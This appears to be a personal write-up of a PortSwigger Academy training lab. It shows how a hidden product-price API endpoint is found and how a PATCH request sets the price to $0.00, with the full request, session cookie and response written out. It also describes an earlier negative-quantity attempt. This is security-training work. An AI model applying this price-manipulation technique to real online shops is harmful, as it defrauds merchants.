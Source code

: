 ## [1. Finding and exploiting an unused API endpoint](https://portswigger.net/web-security/api-testing/lab-exploiting-unused-api-endpoint)

### To solve the lab, exploit a hidden API endpoint to buy a **Lightweight l33t Leather Jacket**. You can log in to your own account using the following credentials: `wiener:peter`.

</br>

``` Required knowledge
To solve this lab, you'll need to know:
- How to use error messages to construct a valid request.
- How HTTP methods are used by RESTful APIs.
- How changing the HTTP method can reveal additional functionality.
These points are covered in our [API Testing](https://portswigger.net/web-security/api-testing) Academy topic.
```
#### Methodology
used content discovery to find `GET /api/products/1/price`
sent it to repeater, turns out I had to logon to be able to change the request method
I knew that was neccessary cause the goal of the lab.

First attempt - sorta worked
Needed to trick the app into selling me the jacket for free, so I
turned on intercept, selected the jacket, changed quantity to -1
to reduce the price to $0.00 and I may of changed to the PUT method
then went to my cart, and proceeded to check out and it worked, sorta, but did not solve the lab

#### What worked:

visited the page `GET /api/products/1/price HTTP/2`
sent to it to the **Repeater** tab, change the method for the API request from `GET` to `PATCH`
I forgot about Patch.
then changed the Content-Type header to reflect the fact I'm working with JSON structured data
`Content-Type: application/json`

Sending the request in repeater:
it's not `POST /cart/checkout HTTP/2`
```json
{"price":"$0.00","message":"&#x1F525; only 1 dolla remaining! &#x1F525;"}
```
The price is supposed to be $0, cause your balance is 0

The request method to use is actually **PATCH:** 
`PATCH /api/products/1/price HTTP/2`
```json
{"price":0}
```

so the request looks like this:
```http
PATCH /api/products/1/price HTTP/2
Host: 0ad7004304fb74b68107f3d6005f0047.web-security-academy.net
Cookie: session=h5RTpdBMdr4rJVE7ETigcxJg1Xmuly2Z
Referer: https://0ad7004304fb74b68107f3d6005f0047.web-security-academy.net/product?productId=1
Content-Type: application/json
Content-Length: 11

{"price":0}
```

And the response is
```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 17

{"price":"$0.00"}
```

all that was left was to...
Go to Burp's browser, reload the leather jacket product page. Notice that the price of the leather jacket is now `$0.00`.
Add the leather jacket to your basket.
Go to your basket and click **Place order** to solve the lab.
